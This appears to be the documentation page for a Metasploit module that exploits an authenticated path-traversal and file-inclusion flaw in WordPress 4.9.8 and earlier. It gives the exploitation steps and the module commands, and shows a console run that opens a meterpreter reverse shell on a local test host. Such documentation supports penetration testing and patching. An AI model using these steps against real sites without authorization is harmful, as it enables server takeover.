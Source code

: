 On WordPress versions 5.0.0 and <= 4.9.8 it is possible to gain arbitrary code execution via a core vulnerability combining a Path Traversal and a Local File Inclusion.
An attacker who gains access to an account with at least author privileges on the target can execute PHP code on the remote server.

## Exploitation Steps

1. Upload an image containing PHP code
2. Edit the `_wp_attached_file` entry from `meta_input` $_POST array to specify an arbitrary path
3. Perform the Path Traversal by using the `crop-image` Wordpress function
4. Perform the Local File Inclusion by creating a new WordPress post and set `_wp_page_template` value to the cropped image. The post will `include()` our image containing PHP code.

When visiting the post created by the attacker it is possible to obtain code execudion.

More details can be found on [RIPS Technology Blog](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/).

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/http/wp_crop_rce`
3. Set the `RHOST`
4. Set `USERNAME` and `PASSWORD`
4. Set `LHOST` and `LPORT`
5. Run the exploit: `run`
6. Confirm you have now a meterpreter session

## Options

### THEME_DIR

The name of the theme Wordpress is using. Used if
the theme cannot be auto-detected.

## Scenarios

### Ubuntu 18.04 running WordPress 4.9.8

```
msf > use exploit/multi/http/wp_crop_rce
msf exploit(multi/http/wp_crop_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/wp_crop_rce) > set username author
username => author
msf exploit(multi/http/wp_crop_rce) > set password author
password => author
msf exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Authenticating with WordPress using author:author...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Checking crop library
[*] Uploading payload
[+] Image uploaded
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (38247 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:36568) at 2019-03-19 11:33:27 -0400

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.15.0-46-generic #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019 x86_64
Meterpreter : php/linux
```
